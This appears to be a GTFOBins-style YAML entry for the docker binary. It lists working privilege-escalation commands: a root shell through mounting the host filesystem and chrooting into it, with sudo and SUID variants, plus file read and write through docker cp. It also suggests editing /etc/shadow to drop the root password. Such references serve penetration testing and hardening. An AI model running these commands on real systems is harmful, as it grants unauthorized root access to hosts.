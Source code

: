 ```yaml
---
description: |
  This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.

  Any other Docker Linux image should work, e.g., `debian`.
functions:
  shell:
    - description: The resulting is a root shell on an alpine docker image with mounted host file system. This can be used to edit host /etc/shadow, remove password for root user and change to root user on the host system without password.
      code: docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  file-write:
    - description: Write a file by copying it to a temporary container and back to the target destination on the host.
      code: |
        CONTAINER_ID="$(docker run -d alpine)" # or existing
        TF=$(mktemp)
        echo "DATA" > $TF
        docker cp $TF $CONTAINER_ID:$TF
        docker cp $CONTAINER_ID:$TF file_to_write
  file-read:
    - description: Read a file by copying it to a temporary container and back to a new location on the host.
      code: |
        CONTAINER_ID="$(docker run -d alpine)"  # or existing
        TF=$(mktemp)
        docker cp file_to_read $CONTAINER_ID:$TF
        docker cp $CONTAINER_ID:$TF $TF
        cat $TF
  sudo:
    - description: The resulting is a root shell.
      code: sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  suid:
    - description: The resulting is a root shell.
      code: ./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
---
```

